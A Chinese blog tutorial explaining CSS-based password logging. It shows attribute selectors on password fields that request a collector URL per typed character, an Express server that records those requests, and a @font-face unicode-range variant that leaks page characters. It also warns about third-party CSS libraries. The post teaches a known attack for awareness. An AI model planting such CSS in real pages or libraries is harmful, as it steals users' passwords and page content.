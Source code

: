 ```yaml
---
layout: post
title:  "CSS攻击：记录用户密码"
date:   2018-03-01
categories: CSS
author: 张翔
location: ShangHai, China
description: CSS也能成为攻击者的使用工具，用来记录用户的输入数据。
---
```

---
简单的CSS代码，甚至不符合图灵完备的语言，但是也能成为一些攻击者的工具，下面简单介绍一下如何使用CSS去记录用户的密码。但是这些CSS脚本会出现在第三方CSS库中，所以使用第三方CSS库也需要谨慎，确保代码安全。
直接上代码解析：
```CSS
input[type="password"][value$="0"] { 
    background-image: url("http://localhost:3000/0"); 
}
input[type="password"][value$="1"] { 
    background-image: url("http://localhost:3000/1"); 
}
input[type="password"][value$="2"] { 
    background-image: url("http://localhost:3000/2"); 
}
```

以上是**部分代码**,我们来解析一下CSS代码
`input[type="password"]`是css选择器，作用是选择密码输入框，`[value$="0"]`表示匹配输入的值是以0结尾的。
所以：
```CSS
input[type="password"][value$="0"] { 
    background-image: url("http://localhost:3000/0"); 
}
```
上面代码的意思就是如果你在密码框中输入0，就去请求`http://localhost:3000/0`接口，但是浏览器**默认情况下**是不会将用户输入的值存储在**value属性**中，但是有的框架会同步这些值，例如**React**。
所以只要使用了如下图的脚本就能去存储用户的输入数据信息。


我们再来看一下服务器端的代码
```javaScript
const express = require("express");
const app = express();

app.get("/:key", (req, res) => {
process.stdout.write(req.params.key);
return res.sendStatus(400);
});

app.listen(3000, () => console.log("启动，监听3000端口"));
```

使用**express**创建服务器，监听**3000端口**，只要请求`http://localhost:3000/:key`，就能输出key的值，**就能在服务器上记录输入的值**。
所以只要在每输入一个值都匹配，然后通过 `background-image` 去请求一个已经准备好的**接口**，就能记录用户的输入。

类似的方法记录用户的内容的CSS代码
```CSS
@font-face {
  font-family: blah;
  src: url('http://localhost:3000/a') format('woff');
  unicode-range: U+85;
}
html {
  font-family: blah, sans-serif;
}
```
你使用的的css的简单的**字体库**，只要你的页面中包含a，就会去请求`http://localhost:3000/a`，这样就能知道你的页面中包含有a字符。